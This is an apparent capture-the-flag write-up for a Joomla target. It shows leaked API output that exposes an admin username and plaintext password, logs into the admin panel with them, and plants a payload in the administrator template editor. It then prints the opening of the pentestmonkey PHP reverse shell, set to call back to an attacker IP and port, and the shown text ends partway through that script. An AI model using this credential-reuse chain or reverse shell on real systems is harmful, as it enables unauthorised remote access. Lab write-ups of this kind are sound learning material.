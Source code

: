 ```json
{
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
    },

```


![[Pasted image 20240315142441.png]]

## using the cred username as lewis loged into joomla admmin pannel




## After login when to system-> themes ->  adminstrator themes and enter the payload got shelll

![[Pasted image 20240320154546.png]]


![[Pasted image 20240315221558.png]]

# `payload used`

``` php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.252';
$port = 2929;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
```